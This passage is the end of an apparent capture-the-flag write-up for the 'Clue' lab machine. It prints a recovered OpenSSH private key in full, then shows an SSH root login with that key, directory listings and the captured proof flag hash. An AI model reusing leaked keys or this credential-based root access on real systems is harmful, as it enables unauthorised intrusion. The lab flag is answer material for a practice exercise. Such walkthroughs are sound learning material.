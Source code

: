 ```bash
HUox7JrJr4r4PPzhW7y4c0Uk7SuGqAEAa1SAEk0lZr0Rm3DCz0+2wsg7PJlitBM5Orj6r8
UWkAp9uw12pR7jjkWS8+avLLHsh/8NoyhJhI+HAAAAAwEAAQAAAQBjswJsY1il9I7zFW9Y
etSN7wVok1dCMVXgOHD7iHYfmXSYyeFhNyuAGUz7fYF1Qj5enqJ5zAMnataigEOR3QNg6M
mGiOCjceY+bWE8/UYMEuHR/VEcNAgY8X0VYxqcCM5NC201KuFdReM0SeT6FGVJVRTyTo+i
CbX5ycWy36u109ncxnDrxJvvb7xROxQ/dCrusF2uVuejUtI4uX1eeqZy3Rb3GPVI4Ttq0+
0hu6jNH4YCYU3SGdwTDz/UJIh9/10OJYsuKcDPBlYwT7mw2QmES3IACPpW8KZAigSLM4fG
Y2Ej3uwX8g6pku6P6ecgwmE2jYPP4c/TMU7TLuSAT9TpAAAAgG46HP7WIX+Hjdjuxa2/2C
gX/VSpkzFcdARj51oG4bgXW33pkoXWHvt/iIz8ahHqZB4dniCjHVzjm2hiXwbUvvnKMrCG
krIAfZcUP7Ng/pb1wmqz14lNwuhj9WUhoVJFgYk14knZhC2v2dPdZ8BZ3dqBnfQl0IfR9b
yyQzy+CLBRAAAAgQD7g2V+1vlb8MEyIhQJsSxPGA8Ge05HJDKmaiwC2o+L3Er1dlktm/Ys
kBW5hWiVwWoeCUAmUcNgFHMFs5nIZnWBwUhgukrdGu3xXpipp9uyeYuuE0/jGob5SFHXvU
DEaXqE8Q9K14vb9by1RZaxWEMK6byndDNswtz9AeEwnCG0OwAAAIEAxxy/IMPfT3PUoknN
Q2N8D2WlFEYh0avw/VlqUiGTJE8K6lbzu6M0nxv+OI0i1BVR1zrd28BYphDOsAy6kZNBTU
iw4liAQFFhimnpld+7/8EBW1Oti8ZH5Mx8RdsxYtzBlC2uDyblKrG030Nk0EHNpcG6kRVj
4oGMJpv1aeQnWSUAAAAMYW50aG9ueUBjbHVlAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```
{: .nolineno}

I got the root access with this private key 🔻

```bash
┌──(kali🔥kali)-[~/Downloads/Proving_Ground/Practice/Clue]
└─$ ssh -i id_rsa_anthony root@192.168.225.240
Linux clue 4.19.0-21-amd64 #1 SMP Debian 4.19.249-2 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Apr 29 17:57:54 2024
root@clue:~# whoami
root
root@clue:~# pwd
/root
root@clue:~# ls -al
total 52
drwx------  7 root root 4096 Jun 28 00:03 .
drwxr-xr-x 18 root root 4096 Aug  5  2022 ..
lrwxrwxrwx  1 root root    9 Aug  5  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root  595 Oct 27  2020 .bashrc
drwxr-xr-x  2 root root 4096 Aug  5  2022 .cassandra
drwxr-xr-x  3 root root 4096 Aug  5  2022 .gem
-rw-r--r--  1 root root   27 Aug  5  2022 .gemrc
drwx------  3 root root 4096 Aug 11  2022 .gnupg
drwxr-xr-x  3 root root 4096 Oct 27  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   29 Aug  5  2022 proof.txt
-rw-------  1 root root   33 Jun 28 00:04 proof_youtriedharder.txt
-rwxr-xr-x  1 root root  223 Apr 29 18:13 smbd.sh
drwxr-xr-x  2 root root 4096 Aug  5  2022 .ssh
root@clue:~# cat proof.txt
The proof is in another file
root@clue:~# cat proof_youtriedharder.txt
d53d4c8221b96b8d2c492035c246140e
root@clue:~# hostname
clue
root@clue:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
```